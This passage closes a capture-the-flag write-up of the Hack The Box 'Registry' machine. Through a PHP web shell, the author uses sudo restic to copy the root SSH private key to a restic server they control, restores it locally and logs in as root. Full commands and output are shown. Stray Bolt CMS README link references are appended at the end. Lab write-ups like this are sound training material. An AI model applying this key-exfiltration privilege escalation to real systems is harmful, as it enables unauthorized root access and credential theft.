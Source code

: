 After creating the required file, I just had to run the following command as www-data:

{% highlight bash %}
sudo restic backup -r rest:http://127.0.0.1:1337/ /root/.ssh/id_rsa -p /tmp/pass.txt

{% endhighlight %}

(of course, I used my .php shell 🙂 )

{% highlight bash %}
scan [/root/.ssh/id_rsa]
[0:00] 0 directories, 1 files, 1.636 KiB
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  1.636 KiB / 1.636 KiB  1 / 1 items  0 errors  ETA 0:00 

duration: 0:00
snapshot a7563da3 saved


{% endhighlight %}

The file was succesfully backed up, so I retrieved it on my local machine and used it to connect as root:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# restic -r rest:http://localhost:1337 restore latest --target ./restored
enter password for repository: 
repository c2f11fd1 opened successfully, password is correct
created new cache in /root/.cache/restic
restoring <Snapshot a7563da3 of [/root/.ssh/id_rsa] at 2019-12-28 19:34:16.462257183 +0000 UTC by root@bolt> to ./restored
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cp ./restored/id_rsa ~/.ssh/bolt_root
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# chmod 600 ~/.ssh/bolt_root 
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ssh root@registry.htb -i ~/.ssh/bolt_root 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Dec 28 19:37:55 UTC 2019

  System load:  0.0               Users logged in:                1
  Usage of /:   6.0% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 37%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    165
Last login: Mon Oct 21 09:53:48 2019
root@bolt:~# wc -c ~/root.txt 
33 /root/root.txt
root@bolt:~#

{% endhighlight %}

The root proof starts with ‘nt’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuh1t0) 🙂

Until next time, hack the world.

yakuhito, over.



[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md